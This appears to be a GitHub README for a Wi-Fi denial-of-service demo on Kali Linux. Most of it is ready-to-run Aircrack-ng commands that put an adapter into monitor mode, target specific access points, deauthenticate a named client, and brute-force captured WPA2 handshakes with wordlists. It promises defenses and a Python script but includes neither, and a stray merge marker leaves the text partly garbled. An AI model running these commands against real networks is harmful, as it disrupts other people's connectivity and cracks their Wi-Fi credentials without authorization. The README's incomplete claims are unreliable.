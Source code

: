 # WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux using tools like Aircrack-ng and Aireplay-ng.  
This project demonstrates deauthentication attacks, brute-force cracking, and defenses.  
It also includes a presentation on attack types, tools, and commands.  

**⚠️ For ethical research and educational purposes only.**

---

## Table of Contents

1. [Demonstration](#demonstration)
2. [Instructions](#instructions)
3. [Prerequisites](#prerequisites)

---

## Demonstration

### View Network Interfaces
```bash
ifconfig
```

### Start Monitor Mode on `wlan0`
```bash
airmon-ng start wlan0
```

### Kill Interfering Processes
```bash
airmon-ng check kill
```

### Confirm Monitor Mode
```bash
iwconfig
```

### Start Scanning for Wi-Fi Networks
```bash
airodump-ng -i wlan0mon
```

### Target Specific BSSID and Channel
```bash
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon
```

### Deauthentication Attack (Kick Clients Out)
```bash
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon
```

### Brute Force Attack
```bash
aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt
aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap
```

### Stop Monitor Mode
```bash
airmon-ng stop wlan0mon
service network-manager restart
```

---

=======

**#  📝 Instructions** # WiFi-DOS-Kali

1. Save the script as `wifi_dos_attack.py`.
2. Run it with `sudo`:
   ```bash
   sudo python3 wifi_dos_attack.py
   ```
3. Ensure the Aircrack-ng suite is installed:
   ```bash
   sudo apt install aircrack-ng
   ```

---

## Prerequisites

- **Operating System**: Kali Linux
- **Tools**: Aircrack-ng suite (includes `airodump-ng`, `aireplay-ng`, etc.)
- **Hardware**: A Wi-Fi adapter capable of monitor mode and packet injection
- **Permissions**: Root access (`sudo`)

---

**Disclaimer**:  
This project is intended for ethical research and educational purposes only.  
Unauthorized use of these tools may violate laws and regulations.